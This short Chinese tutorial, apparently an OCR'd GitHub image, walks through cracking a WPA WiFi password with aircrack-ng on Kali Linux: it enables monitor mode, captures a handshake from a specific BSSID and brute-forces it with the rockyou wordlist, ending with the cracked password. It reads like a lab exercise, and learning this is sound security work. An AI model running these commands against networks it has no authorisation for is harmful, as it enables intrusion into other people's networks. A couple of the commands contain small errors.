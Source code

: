 1.实验前确保有能打开监听模式的网卡
2.使用`sudo airmon-ng`显示无线接口信息
3.使用`sudo airmon-ng start wlan0` 将名为 wlan0 的无线网卡接口切换到监听模式，以便于后续进行WIFI的扫描
4.后续的`airmon-ng`操作都需要root权限，输入`sudo su` 进入到root模式以便于后续操作
5.输入`airmon-ng wlan0mon`监听wlan0mon接口，用来扫描WIFI
如果已经扫描到已经要破解的目标WIFI，使用Ctrl+C停止，这里已经扫描到了目标WIFI,记录一下bssid和ch的值，后续会用到
6.由于后要利用kali Linux自带的字典进行跑包从而暴力破解WIFI密码，这里我们输入 `cd /usr/share/wordlists/`进入到kali Linux的默认字典目录，然后输入 `airodump-ng -c 1 –bssid 66:9A:0B:A4:A7:18 -w nova wlan0mon`抓取该WIFI的握手包
- `-c 1` 指定要监听的信道号为1
- `-bssid 66:9A:0B:A4:A7:18`用于指定要监控的AP的BSSID
- `-w nova`意味着捕获到的数据将被保存在以 nova 为前缀的文件中
需要注意，这时需要有一台设备连接此WIFI才能获取到握手包。
这里成功获取到握手包后，使用Ctrl+C停止捕获。
7.输入命令`aircrack-ng -a2 -b 66:9A:0B:A4:A7:18 -w rockyou.txt nova-01.cap `将获取到的握手包文件利用kali Linux自带的字典进行跑包来暴力破解WIFI密码
8.得到跑包结果
如图所示，破解出密码为88888888
